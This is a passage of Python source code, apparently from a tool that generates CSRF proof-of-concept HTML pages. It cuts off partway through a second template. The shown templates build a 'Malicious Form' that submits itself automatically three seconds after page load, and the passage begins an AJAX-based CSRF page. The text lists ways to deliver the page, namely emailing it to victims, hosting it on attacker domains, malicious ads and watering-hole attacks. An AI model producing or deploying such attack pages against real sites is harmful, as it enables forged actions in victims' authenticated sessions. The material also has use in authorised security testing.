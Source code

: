 ```python
        
        <div class="form-container">
            <h3>Malicious Form</h3>
            <p>This form will automatically submit a CSRF attack when the page loads.</p>
            
            <form id="csrfForm" action="{operation['action']}" method="{operation['method']}">
{chr(10).join(form_fields)}
                <button type="submit">Execute CSRF Attack</button>
            </form>
        </div>
        
        <div class="info">
            <h3>Attack Scenarios</h3>
            <ul>
                <li>Send this page to a victim via email</li>
                <li>Host on attacker-controlled domain</li>
                <li>Embed in malicious advertisement</li>
                <li>Use in watering hole attack</li>
            </ul>
        </div>
    </div>
    
    <script>
        // Automatic form submission after page load
        document.addEventListener('DOMContentLoaded', function() {{
            console.log('CSRF PoC loaded - Auto-submitting in 3 seconds...');
            setTimeout(function() {{
                document.getElementById('csrfForm').submit();
            }}, 3000);
        }});
        
        // Manual execution function
        function executeCSRF() {{
            document.getElementById('csrfForm').submit();
        }}
    </script>
</body>
</html>
'''
        return poc_html
    
    def generate_ajax_csrf_poc(self, operation):
        """Generate AJAX-based CSRF PoC"""
        poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>CSRF PoC - AJAX Attack</title>
    <style>
        body {{ font-family: Arial, sans-serif; margin: 40px; }}
        .container {{ max-width: 800px; margin: 0 auto; }}
        .info {{ background: #f0f0f0; padding: 20px; margin: 20px 0; border-radius: 5px; }}
        button {{ background: #007cba; color: white; padding: 10px 20px; border: none; border-radius: 3px; cursor: pointer; margin: 5px; }}
        #results {{ background: #f9f9f9; padding: 15px; margin: 20px 0; border-radius: 5px; min-height: 100px; }}
    </style>
</head>
<body>
    <div class="container">
        <h1>🔒 AJAX CSRF Proof of Concept</h1>
        
        <div class="info">
```